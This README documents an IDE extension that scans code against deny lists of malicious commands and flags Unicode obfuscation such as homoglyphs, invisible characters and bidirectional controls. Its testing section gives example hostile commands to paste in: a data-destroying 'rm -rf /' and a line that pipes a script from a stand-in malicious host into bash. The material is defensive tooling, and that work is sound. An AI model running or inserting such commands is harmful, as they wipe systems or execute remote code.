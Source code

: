 # MalCode Detector for VSCode-Cursor-Windsurf IDE

This IDE extension helps detect potentially malicious commands and Unicode obfuscation techniques in your code. It's designed to be used with VS Code and compatible editors.

## Features

-   **Real-time Scanning**: Automatically scans files upon opening and saving.
-   **Deny List Matching**: Detects known malicious commands using configurable deny lists.
-   **Unicode Obfuscation Detection**: Identifies various Unicode-based obfuscation techniques:
    -   **Homoglyphs**: Flags characters that look like other characters (e.g., Cyrillic 'а' for Latin 'a').
    -   **Invisible Characters**: Detects zero-width spaces and other non-printing characters.
    -   **Bidirectional Control Characters**: Warns about characters that can alter text rendering order.
    -   **Mixed Scripts**: Highlights lines with characters from multiple scripts (e.g., Latin and Cyrillic).
-   **Configurable**: Customize deny list paths and toggle real-time scanning through VS Code settings.

## Usage

Once installed, the "Cursor Deny List Malcode Detector" works in the background:

-   **Automatic Analysis**: Files are automatically scanned when opened or saved. If potential issues are found, VS Code will display diagnostic warnings (e.g., squiggly underlines) on the problematic lines. Hover over the underlined code to see a description of the issue.
-   **Manual Scan**: You can also manually trigger a scan for the currently active file by opening the Command Palette (`Ctrl+Shift+P` or `Cmd+Shift+P` on macOS) and running the command "Scan Current File for Malicious Patterns".
-   **Ignore File**: You can right-click a file in the VS Code Explorer and select "Ignore This File (MalCode Detector)" from the context menu. This will add the file to an ignore list, and it will no longer be scanned by the extension.
-   **Problems Panel**: Detected issues are listed in the "Problems" panel in VS Code (View > Problems).

## Configuration

You can configure the extension via VS Code settings (File > Preferences > Settings, then search for "MalCode Detector for VSCode-Cursor-Windsurf IDE"):

-   **`malcode-detector-vscode-cursor-windsurf-ide.enableRealtimeScan`**: 
    -   **Description**: Enable real-time scanning of files on open and save.
    -   **Type**: `boolean`
    -   **Default**: `true`

-   **`malcode-detector-vscode-cursor-windsurf-ide.denyListPaths`**: 
    -   **Description**: Paths to the deny list JSON files, relative to the extension's root directory. You can customize these paths if you have your own deny lists or a different directory structure.
    -   **Type**: `object`
    -   **Default**:
        ```json
        {
          "windows": "deny_lists/windows_deny_list.json",
          "macos": "deny_lists/macos_deny_list.json",
          "linux": "deny_lists/linux_deny_list.json",
          "universal": "deny_lists/universal_deny_list.json"
        }
        ```

-   **`malcode-detector-vscode-cursor-windsurf-ide.ignoredFiles`**:
    -   **Description**: A list of file paths (relative to the workspace root) to be ignored by the MalCode Detector. Files in this list will not be scanned. You can manually edit this list or use the "Ignore This File (MalCode Detector)" command from the explorer context menu.
    -   **Type**: `array`
    -   **Default**: `[]`

## Troubleshooting

-   **No diagnostics shown**: 
    -   Ensure the extension is enabled in the Extensions view.
    -   Check the VS Code "Output" panel (select "Cursor Deny List Malcode Detector" from the dropdown) for any error messages.
    -   Verify that the file type you are editing is included in the `activationEvents` in `package.json` (if you are developing the extension).
    -   Make sure your deny list paths in the settings are correct and the JSON files are valid.
-   **Performance issues**: If you experience slowdowns, especially with very large files, you can disable `cursord-malcode-detector.enableRealtimeScan` in the settings and use the "Scan Current File for Malicious Patterns" command manually.

## Release Notes

See [CHANGELOG.md](CHANGELOG.md) for detailed release notes.

## Prerequisites

-   [Node.js](https://nodejs.org/) (which includes npm)
-   [Visual Studio Code](https://code.visualstudio.com/)

## Installation and Setup (for Development)

1.  **Clone the Repository**:
    If you haven't already, clone the main project repository that contains this `ide_extension` folder.

2.  **Navigate to the Extension Directory**:
    Open your terminal and navigate to this directory:
    ```bash
    cd path/to/your/Cursur_deny_list/ide_extension
    ```

3.  **Install Dependencies**:
    Run npm to install the necessary dependencies defined in `package.json`:
    ```bash
    npm install
    ```

4.  **Compile TypeScript**:
    The extension is written in TypeScript. Compile it to JavaScript using:
    ```bash
    npm run compile
    ```
    This will typically create an `out` directory containing the compiled JavaScript files.

## Running and Testing in VS Code

1.  **Open the Extension Folder in VS Code**:
    Open the `ide_extension` folder itself as the root workspace in VS Code.

2.  **Launch the Extension Development Host**:
    -   Press `F5` (or go to "Run" > "Start Debugging").
    -   This will open a new VS Code window (the "Extension Development Host") with this extension loaded.

3.  **Verify Installation**:
    -   In the Extension Development Host window, open any text file (e.g., a shell script, a source code file, or a plain text file).
    -   The extension activates on opening or changing text documents.

4.  **Testing Functionality**:

    *   **Deny List Pattern Matching**:
        -   The extension loads deny list patterns from the `../../deny_lists/` directory (relative to the compiled extension code, typically `ide_extension/out/`). These lists contain patterns for known malicious commands.
        -   Try typing or pasting commands that are known to be malicious and should be on the deny lists (e.g., `rm -rf /`, `curl malicious.com/script.sh | bash`).
        -   You should see warnings or diagnostics displayed by VS Code for the lines containing these patterns. The specific appearance depends on how diagnostics are rendered.

    *   **Unicode Obfuscation Detection**:
        -   The extension scans for several types of Unicode obfuscation:
            -   **Homoglyphs**: Characters that look like other characters (e.g., a Cyrillic 'а' instead of a Latin 'a').
                -   Example: `echo "hellо"` (where 'о' is Cyrillic)
            -   **Invisible Characters**: Zero-width spaces or other non-printing characters that can break up commands or hide code.
                -   Example: `e\u200Bcho "hidden"` (contains a Zero Width Space)
            -   **Bidirectional Control Characters**: Characters that can alter the visual rendering order of text.
            -   **Mixed Scripts**: Lines containing characters from multiple scripts (e.g., Latin and Cyrillic) which can be an obfuscation technique.
        -   Try typing text containing these Unicode patterns.
        -   The extension should flag these issues, providing descriptions in the diagnostics.

    *   **Test Cases**:
        -   Refer to the `../../test_cases/` and `../../test_payloads/` directories in the main project for examples of malicious patterns and Unicode obfuscation techniques to test with.
        -   Copy and paste content from these files into the editor in the Extension Development Host window.

## Extension Structure (Simplified)

-   `src/extension.ts`: The main activation point for the VS Code extension.
-   `src/fileAnalyzerService.ts`: Contains the core logic for analyzing document content against deny lists and Unicode rules.
-   `src/denyListService.ts`: Handles loading, parsing, and querying the deny list patterns.
-   `src/unicodeScanner.ts`: Provides functions to detect various Unicode-based obfuscation techniques.
-   `out/`: Directory where the compiled JavaScript code is placed (after `npm run compile`). This is what VS Code runs.
-   `package.json`: Defines extension metadata, dependencies, and build scripts.

## Contributing

-   **Deny Lists**: To add or modify deny list patterns, edit the JSON files in the `Cursur_deny_list/deny_lists/` directory. Follow the existing structure and refer to `PRD.md` for guidelines.
-   **Code**: For code contributions, open the `ide_extension` folder in VS Code, make your changes, and ensure `npm run compile` runs without errors. Test thoroughly using the Extension Development Host. 